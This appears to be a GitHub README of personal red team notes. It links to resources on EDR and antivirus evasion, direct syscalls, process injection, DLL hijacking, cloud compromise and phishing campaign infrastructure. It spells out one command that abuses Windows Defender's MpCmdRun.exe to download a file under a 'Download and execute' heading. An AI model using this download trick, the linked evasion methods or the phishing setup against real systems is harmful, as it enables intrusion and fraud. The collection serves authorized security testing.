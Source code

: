 # RedBlueNotes

![red](https://user-images.githubusercontent.com/9626439/99510946-ef79e900-2987-11eb-9aa8-1443670a8bb3.jpg)

Personal notes and collection of useful links. 

Collection in early stage - more details will be added (URL/Description).

## Approach
* [assume breach?](https://twitter.com/reybango/status/1308608385298898944)

## Lab
* [designing-the-adversary-simulation-lab/](https://www.mdsec.co.uk/2020/04/designing-the-adversary-simulation-lab/)

## .NET ETW 
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/ (bypass by _xpn_)
* https://github.com/zacbrown/PowerKrabsEtw
* https://github.com/zacbrown/hiddentreasure-etw-demo

## Windows syscalls
* https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
* https://github.com/jthuraisamy/SysWhispers
* https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
* https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
* https://www.solomonsklash.io/syscalls-for-shellcode-injection.html
* https://github.com/frkngksl/Celeborn
* https://github.com/m0rv4i/Syscalls-Extractor

## (API) (un)hook
* [Defeat Bitdefender total security using windows API unhooking to perform process injection](https://shells.systems/defeat-bitdefender-total-security-using-windows-api-unhooking-to-perform-process-injection/)
* [Part 1: Fs Minifilter Hooking](https://aviadshamriz.medium.com/part-1-fs-minifilter-hooking-7e743b042a9d)
* [Windows API Hooking](https://rcvalle.com/blog/2020/09/16/rust-lang-exploit-mitigations/)

## EDR telemetry
* [TelemetrySourcerer](https://github.com/jthuraisamy/TelemetrySourcerer)

## Build offensive tools 
* [OffensivePipeline](https://github.com/Aetsu/OffensivePipeline)

## Evasion
* [Blue team - EDR evolution](https://www.optiv.com/insights/source-zero/blog/endpoint-detection-and-response-how-hackers-have-evolved)
* [Nice webinar - understanding-modern-edr-tools](https://www.netspi.com/webinars/understanding-modern-edr-tools-thank-you/)
* [Lets Create An EDR… And Bypass It! Part 1](https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/)
* [Lets Create An EDR… And Bypass It! Part 2](https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/)
* [A Guide to Reversing and Evading EDRs: Part 1 Introduction](http://jackson-t.ca/edr-reversing-evading-01.html)
* [A Guide to Reversing and Evading EDRs: Part 2 Sensor reconnaisssance](http://jackson-t.ca/edr-reversing-evading-02.html)
* [A Guide to Reversing and Evading EDRs: Part 3 Diverting EDR telemetry to private infrastracture](http://jackson-t.ca/edr-reversing-evading-03.html)
* [Alaris](https://github.com/cribdragg3r/Alaris)
* [ScareCrow](https://github.com/optiv/ScareCrow)
* [Self deleting exe](https://www.catch22.net/tuts/win32/self-deleting-executables#)
* [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
* [Duping AV with handles](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [Adventures in Dynamic Evasion](https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa)
  * [Companion PoC for the "Adventures in Dynamic Evasion" blog post](https://github.com/matterpreter/SHAPESHIFTER) 
* [Click your shortcut and… you got pwned.](https://redteamer.tips/click-your-shortcut-and-you-got-pwned/) 
* [Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a)
* [Understanding and bypassing AMSI](https://x64sec.sh/understanding-and-bypassing-amsi/)
* [Masking Malicious Memory Artifacts – Part III: Bypassing Defensive Scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
* [smaller-c-payloads-on-windows](https://www.solomonsklash.io/smaller-c-payloads-on-windows.html)
* [in-memory-shellcode-decoding-to-evade-avs](https://shells.systems/in-memory-shellcode-decoding-to-evade-avs/)
* [MDSec Bypassing Image Load Kernel Callbacks](https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/)

## Cloud
* [XPN - Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Making Clouds Rain :: Remote Code Execution in Microsoft Office 365](https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html)
* [List of Azure CDN IP Addresses](https://github.com/Gelob/azure-cdn-ips)
* [AWS IAM explained for Red and Blue teams](https://infosecwriteups.com/aws-iam-explained-for-red-and-blue-teams-2dda8b20fbf7)
* [Exploiting AWS IAM permissions for total cloud compromise: a real world example (part 1/2)](https://infosecwriteups.com/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)
* [Exploiting fine-grained AWS IAM permissions for total cloud compromise: a real world example (part 2/2)](https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e)

## Lateral movement
* [lateral-movement-using-dcom-objects](https://www.scorpiones.io/articles/lateral-movement-using-dcom-objects)

# DLLs
* https://itm4n.github.io/windows-dll-hijacking-clarified/
* https://github.com/monoxgas/Koppeling (DLL hijacking)
* https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/ (DLL proxy loading)
* [Full DLL Unhooking with C++](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)

## Injections
* https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
* https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/

## Situational Awareness
* https://ired.team/offensive-security/enumeration-and-discovery/windows-event-ids-for-situational-awareness

## Phishing
* [Post exploitation creds](https://medium.com/@shantanukhande/post-exploitation-creds-5a8de8676792)
* [Check the phishing server / landing page response](https://httpstatus.io/)
* [Security check of your URL ](https://sitecheck.sucuri.net/)
* [Check your phishing e-mail quality](https://www.mail-tester.com/)
* [Recipe for a successful phishing campaign (part 1/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-1-2-dc23d927ec55)
  * setup SPF, DKIM, PTR, MX and general approach
* [Recipe for a successful phishing campaign (part 2/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-2-2-68552806dcba)
  * setup DNS, gophishg, general tips for better campaign
* [Building resilient phishing campaign infrastructure](https://godlikesecurity.com/index.php/tag/red-team/)
* [email spoofing](https://github.com/chenjj/espoofer)
* [docker,terradorm,ansible automation](https://github.com/ralphte/build_a_phish)
* [Internal phishing](https://github.com/Yaxser/SharpPhish)
* [Password protected Excel phishing](https://s3cur3th1ssh1t.github.io/Phish-password-protected-Excel-files/)

### Phishing platforms
* [sendgrid](http://sendgrid.com/)
  * useful service but honestly, You need Pro pain plan to be lucky not to be on a spamlist 
* [mailgun](https://app.mailgun.com/)
  * haven't had any problem
* [Amazon AWS SES](https://aws.amazon.com/ses/)

## Download and execute

* [Download via Defender](https://twitter.com/mohammadaskar2/status/1301263551638761477)
![Defender download](https://pbs.twimg.com/media/Eg8ESSWWAAACTGo?format=jpg&name=large)
* (You can use C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path> to download your file using Windows defender itself.)
  
## Reports and management
* [Manage Red Team domain](https://posts.specterops.io/being-a-good-domain-shepherd-part-2-5e8597c3fe63)
* [Domain Shepherd](https://github.com/GhostManager/Shepherd)

## SSH 
* If you are always looking through your ssh conf files for a specific host entry, this simple bash function might be just what you need. 

```
function getssh() {
  awk "/$1/,/^$/" < ~/.ssh/include/*
}
```

![SSH configs](https://pbs.twimg.com/media/EgW_CXzXsAEsh0r?format=png&name=small)

## Tools
* [Weaponry](https://github.com/jeffjbowie/Weaponry)
  * A collection of offensive code used for red team engagements.                                    
* [Mr-Un1k0d3r awesome repo](https://github.com/Mr-Un1k0d3r)  
* [PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury) 
* [RedTeamTools](https://github.com/lengjibo/RedTeamTools)     
* [inceptor](https://github.com/klezVirus/inceptor)                                    

## HW
* [Making the Perfect Red Team Dropbox (Part 1)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-1/)
* [Making the Perfect Red Team Dropbox (Part 2)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-2/)
